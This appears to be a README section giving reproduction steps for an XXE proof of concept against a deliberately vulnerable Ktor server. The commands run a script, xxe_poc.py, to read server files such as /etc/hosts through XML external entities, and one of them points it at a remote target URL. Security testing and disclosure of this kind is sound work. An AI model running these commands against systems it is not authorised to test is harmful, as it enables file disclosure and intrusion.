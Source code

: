 ## Reproduction Steps

### Step 1: Start the Vulnerable Server

```bash
# Build and run the Ktor application
./gradlew run

# Or run in background
./gradlew run &

# Verify server is running
curl http://localhost:8080/
```

### Step 2: Install Python Dependencies

```bash
pip install -r requirements.txt
```

### Step 3: Test Server Connectivity

```bash
python test_server.py
```

### Step 4: Run XXE Exploitation

#### Basic XXE Test
```bash
# Test file read via XXE
python xxe_poc.py

# Test specific file
python xxe_poc.py --file /etc/hosts

# Test Windows files (if running on Windows)
python xxe_poc.py --file "C:\\Windows\\System32\\drivers\\etc\\hosts"
```

#### Comprehensive Test
```bash
# Run full vulnerability assessment
python xxe_poc.py --full-test
```

#### Custom Target
```bash
# Test remote server
python xxe_poc.py --url http://target-server:8080 --full-test
```
